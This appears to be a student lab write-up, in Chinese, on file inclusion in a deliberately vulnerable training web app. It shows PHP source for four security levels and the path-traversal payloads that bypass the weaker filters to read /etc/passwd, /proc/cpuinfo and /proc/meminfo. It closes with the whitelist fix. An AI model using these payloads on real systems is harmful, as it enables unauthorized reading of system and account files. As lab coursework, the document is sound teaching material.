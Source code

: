 # Ex4

文件包含

## Low等级本地文件包含和远程文件包含（20分）

* 以下为页面源代码

```php
// The page we wish to display
$file = $_GET[ 'page' ];
```

由源代码分析可知，Low等级没有做任何防护，可以将page参数作为文件路径进行加载。

将用户列表路径```/etc/passwd```作为参数传入，便可得到以下结果。

```log
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...以下省略若干行...
```

## Medium等级本地文件包含和远程文件包含（20分）

* 以下为页面源代码

```php
// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );
```

由源代码分析可知，Medium等级使用了黑名单方式防护，拒绝了http、https协议，以及上级路径的加载。

但是显然并没有对绝对路径进行处理，所以构造参数```/proc/cpuinfo```，便可以获取CPU信息。

```log
processor	: 0
BogoMIPS	: 48.00
Features	: fp asimd evtstrm aes pmull sha1 sha2 crc32 atomics fphp asimdhp cpuid asimdrdm jscvt fcma lrcpc dcpop sha3 asimddp sha512 asimdfhm dit uscat ilrcpc flagm ssbs sb paca pacg dcpodp flagm2 frint
CPU implementer	: 0x41
CPU architecture: 8
CPU variant	: 0x0
CPU part	: 0x000
CPU revision	: 0

processor	: 1
BogoMIPS	: 48.00
Features	: fp asimd evtstrm aes pmull sha1 sha2 crc32 atomics fphp asimdhp cpuid asimdrdm jscvt fcma lrcpc dcpop sha3 asimddp sha512 asimdfhm dit uscat ilrcpc flagm ssbs sb paca pacg dcpodp flagm2 frint
CPU implementer	: 0x41
CPU architecture: 8
CPU variant	: 0x0
CPU part	: 0x000
CPU revision	: 0
```

## High级别本地文件包含和远程文件包含（20分）

* 以下为页面源代码

```php
// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
```

由源代码分析可知，High等级对参数路径进行了file开头的匹配，并且文件名不能为include.php。

但是显然，对于上级路径的解析并没有做好防护，那么构造参数```file/../../../../../../proc/meminfo```，便可以得到系统内存信息。

```log
MemTotal:        2028684 kB
MemFree:          135356 kB
MemAvailable:     713516 kB
Buffers:          134748 kB
Cached:           595964 kB
SwapCached:        40428 kB
Active:           846796 kB
Inactive:         714260 kB
...以下省略若干行...
```

## Impossible等级的机制以及修复、防御文件包含的方法（30分）

* 以下为页面源代码

```php
// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
```

由源代码分析可知，Impossible采用了白名单机制，显然除了以上4个页面外，无法加载其它页面。

